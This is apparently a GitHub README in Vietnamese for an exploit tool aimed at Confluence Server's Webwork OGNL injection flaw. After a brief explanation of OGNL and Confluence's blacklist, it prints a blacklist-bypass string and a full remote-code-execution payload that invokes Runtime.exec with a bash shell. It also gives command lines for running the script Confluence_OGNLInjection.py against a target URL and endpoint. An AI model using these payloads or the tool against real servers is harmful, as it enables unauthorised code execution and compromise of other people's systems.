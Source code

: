 # Confluence-Server-Webwork-OGNL-injection
  Object-Graph Navigation Language (OGNL) là một ngôn ngữ biểu thức nguồn mở dành cho Java. Thông thường, các biểu thức được các nhà phát triển sử dụng để tạo các trường động trong một ứng dụng. Ví dụ: tiêu đề của trang web có thể muốn được tạo động dựa trên người dùng hiện tại: OGNL mạnh mẽ và các biểu thức không bị giới hạn trong các ví dụ cơ bản như thế này. OGNL cũng cho phép thực thi bất kỳ loại Java nào trong biểu thức để cho phép các nhà phát triển xử lý nhiều hơn nữa. Khía cạnh nguy hiểm của OGNL là khi người dùng có thể kiểm soát biến được sử dụng trong biểu thức. Nếu kẻ tấn công có thể kiểm soát biến, chúng có thể đưa vào một biểu thức độc hại để máy chủ đánh giá. Trong trường hợp của Confluence, chúng có một số thông số ẩn mà người dùng cuối có thể kiểm soát khi POST các điểm cuối khác nhau.
  
  
![image](https://user-images.githubusercontent.com/59444526/171090104-a885c55f-6a78-427a-8ffb-06e6796b19d3.png)


  
 OGNL injection là lỗ hổng khá phổ biến mà các nhà phát triển nhận thức được và thường để giảm thiểu nó, trước tiên các nhà phát triển sẽ chuyển tất cả nội dung được đánh giá thông qua một danh sách đen (blacklist). Danh sách đen được sử dụng bởi Confluence đã kiểm tra xem có các lớp hoặc thuộc tính Java phổ biến mà kẻ tấn công sử dụng để thực thi mã hay không nhưng lại bỏ sót một số phương pháp nâng cao.
 
 ![image](https://user-images.githubusercontent.com/59444526/171090261-2212fd61-04e3-4253-ac16-4defef70d824.png)

 
 Trình truy cập mảng có thể vượt qua danh sách đen của Confluence:
 
         queryString=aaa'+#{""["class"]}+'bbb
 Với việc bỏ qua danh sách đen, giờ đây họ có thể đưa vào bất kỳ mã Java nào mà máy chủ sẽ đánh giá. Ví dụ cuối cùng về payload có thể được đưa vào là:
 
       queryString=aaa
       #{
        ""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("/bin/bash -c ")
         }
# queryString param Request 

![image](https://user-images.githubusercontent.com/59444526/171090559-78dd706d-b17b-402f-bbee-d4e6c6ab4cb9.png)

# Exploit Usage

**Commands:**

$ python3 Confluence_OGNLInjection.py -u http://xxxxx.com

**or**

$ python3 Confluence_OGNLInjection.py -u http://xxxxx.com -p /pages/createpage-entervariables.action?SpaceKey=x

**Exploitation with Confluence_OGNLInjection.py**

![image](https://user-images.githubusercontent.com/59444526/171090827-6bc8aa54-0878-4e7e-a766-ee7470179a09.png)

   
   
